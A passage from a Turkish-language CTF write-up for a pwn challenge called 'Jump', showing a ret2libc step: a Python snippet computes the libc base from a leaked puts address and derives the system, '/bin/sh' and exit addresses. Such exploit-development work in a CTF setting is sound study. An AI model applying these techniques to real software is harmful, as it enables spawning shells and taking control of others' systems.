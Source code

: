 Değişen puts libc adresi elimizde artık. Şimdi ise bununla ile beraber diğer fonksiyonları hesaplayalım. Bize system adresi, “/bin/sh” stringi ve exit adresi lazım:

![first look](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Jump/screenshots/11.png)

Yukarda verdiğim linkte ki program ile bunları yapabiliyorsunuz. 

Bunları biraz toparlayıp bize lazım olan system, bin_sh ve exit adreslerini bulalım:

```python
offset_system = 0x0003d870
offset_str_bin_sh = 0x17c968
offset_exit = 0x00030c30

libc_base = puts_libc - offset_puts
system_addr = libc_base + offset_system
binsh_addr = libc_base + offset_str_bin_sh
exit_addr = libc_base + offset_exit

log.info("libc base: 0x%x" % libc_base)
log.info("system@libc: 0x%x" % system_addr)
log.info("binsh@libc: 0x%x" % binsh_addr)
log.info("exit@libc: 0x%x" % exit_addr)
```
Bununla beraber bize lazım olan adresleri bulmuş olacağız.

![first look](https://github.com/lntrx/STMCTF_PWN_Writeup/blob/master/Jump/screenshots/12.png)
